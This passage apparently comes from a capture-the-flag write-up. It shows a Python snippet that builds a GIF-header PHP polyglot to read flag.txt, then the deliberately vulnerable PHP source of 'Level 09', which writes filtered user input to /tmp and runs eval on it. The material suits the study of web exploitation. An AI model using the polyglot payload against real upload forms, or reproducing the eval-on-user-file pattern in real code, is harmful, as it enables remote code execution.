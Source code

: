 ```python
f = open('tmp','w')
f.write('\x47\x49\x46\x38\x36\x61' + '<?php var_dump(file_get_contents("flag.txt")); ?>')
f.close()
```

![](../../.gitbook/assets/Pasted%20image%2020240125151901.png)


## Level 09

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);
if( isset ($_GET['submit']) && isset ($_GET['c'])) {
    $randVal = sha1 (time ());

    setcookie ('session_id', $randVal, time () + 2, '', '', true, true);

    try {
        $fh = fopen('/tmp/' . $randVal, 'w');

        fwrite (
            $fh,
                   str_replace (
                ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
                '',
                $_GET['c']
            )
        );
        fclose($fh);
    } catch (Exception $e) {
        var_dump ($e->getMessage ());
    }
}

if (isset ($_GET['cache_file'])) {
    if (file_exists ($_GET['cache_file'])) {
        echo eval (stripcslashes (file_get_contents ($_GET['cache_file'])));
    }
}
?>
```
